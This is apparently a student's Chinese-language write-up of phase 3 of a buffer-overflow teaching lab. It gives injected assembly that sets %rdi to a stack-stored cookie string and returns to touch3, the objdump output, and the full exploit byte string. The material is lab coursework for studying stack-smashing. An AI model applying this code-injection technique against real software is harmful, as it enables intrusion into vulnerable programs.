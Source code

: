 `https://www.sojson.com/ascii.html`



0x59b997fa

```
35 39 62 39 39 37 66 61
```

既然这样，我们就可以将他的首地址给了%rdi，

rdi也就是目的地址寄存器

我们也就是说，需要把这串字符串放在栈中，同时rdi的值设置成为字符串的首地址，然后和level2 一样，	二次返回即可



如果目标字符串存放的位置比`touch3`存放地址更低，在最终字符串对比的时候会发现`rdi`指向地址的内容发生了改变。

 因为栈是从高地址向低地址增长的，所以，如果touch向低地址增长，很容易覆盖rdi，

因此，我们需要注入我们的代码

gcc -c 3.s -o 3.o

```
mov $0x5561dca8,%rdi
pushq $0x4018fa
retq
```

我们使用

objdump -d 3.p

```

3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
```

因此我们输入的是：0x4018fa

touch 3 地址为：![image-20211222164903249](../../AppData/Roaming/Typora/typora-user-images/image-20211222164903249.png)

````
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
````

